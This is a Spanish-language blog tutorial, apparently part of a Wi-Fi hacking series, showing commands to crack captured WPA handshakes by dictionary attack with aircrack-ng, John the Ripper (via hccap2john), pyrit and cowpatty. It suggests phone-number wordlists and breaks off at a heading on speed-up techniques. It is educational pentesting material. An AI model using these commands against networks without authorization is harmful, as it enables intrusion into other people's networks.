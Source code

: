 ```yaml
---
layout: single
title: Wifi Hacking 4, Crackeo de hashes
excerpt: "En este artículo veremos como crackear los hashes que hemos obtenido para así lograr saber la contraseña."
date: 2022-07-08
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: /assets/images/Wifi-Hacking/wifi.webp
categories:
  - Wifi-Hacking
tags:  
  - Wifi-Hacking
---
```


![](/assets/images/Wifi-Hacking/cracking.jpg)

Este es el último paso que tenemos que realizar si `lo que queremos lograr es la contraseña` de la red. Para esto hay varias técnicas y dentro de las mismas hay otras sub técnicas con las que podremos acelerar el proceso. Por eso aquí veremos todas, aunque `con cualquiera se puede lograr el mismo resultado`, vosotros elegid la que prefiráis.

Todas las técnicas que veremos funcionan a base de `fuerza bruta`, es decir que utilizando un `diccionario` que viene a ser una lista de palabras/contraseñas filtradas/... va probando una a una hasta que encuentre la correcta.

`IMPORTANTE: no es raro que la contraseña sea un número de teléfono, por lo que no está mal probar con eso si no conseguimos resultado con otros diccionarios, si necesitas un diccionario con números de teléfono o alguna otra cosa puedes mirar este simple script que programé hace tiempo: https://github.com/AirilMusic/Pentesting-Hacking/blob/main/Passwords-and-Brute-Forcing/DictionaryCreator.py`

## John the Reaper

Vamos a empezar explicando como hacerlo con esta conocida herramienta. Pero como John no está especializado en wifi hacking primero tenemos que preparar el hash, es decir, extraerlo del archivo .cap:

```
# generar miCaptura.hccap, parte del paquete con las creds
> aircrack-ng -J miCaptura Captura-01.cap (esto hace el hccap pero en binario)

# genera hash de las creds
> hccap2john miCaptura.hccap > miHash (esto lo pasa a json, solo falte desencriptarlo)
```

Una vez hecho esto ya podremos crackear la contraseña:

```
> john --wordlist={diccionario.txt} miHash
```

## Airckrack

Ahora veremos como hacerlo con esta otra también conocida herramienta y la cual si es especializada en wifi hacking, por lo tanto, la captura no necesitará preparación previa:

```
> aircrack-ng -w {diccionario.txt} {captura.cap}
```

## Pyrit

También veremos como hacerlo con esta herramienta que ya es bastante antigua, por lo tanto, quizás hay que arreglarle un par de cosas al código o correrla con python2, sin optimizar es la más lenta, pero luego veremos que bien optimizada es la más rápida de todas y con diferencia.

```
# primero veremos si la captura tiene un handshake y tambien veremos el nombre del AP
> pyrit -r Captrua-01.cap analyze 

# crackear la contraseña:
> pyrit -r Captura-01.cap -e {nombre del ap} -i diccionario.txt attack_passthrough 
```

## Craking con Coupatty

```
> cowpatty -r {captura.cap} -f {diccionario.txt} -s {nombre del ap}
```

## TÉCNICAS DE ACELERACIÓN

Las técnicas que hemos visto son bastante lentas, por lo que si no queremos estar varias horas con eso también podemos utilizar las siguientes técnicas que son considerablemente más rápidas.



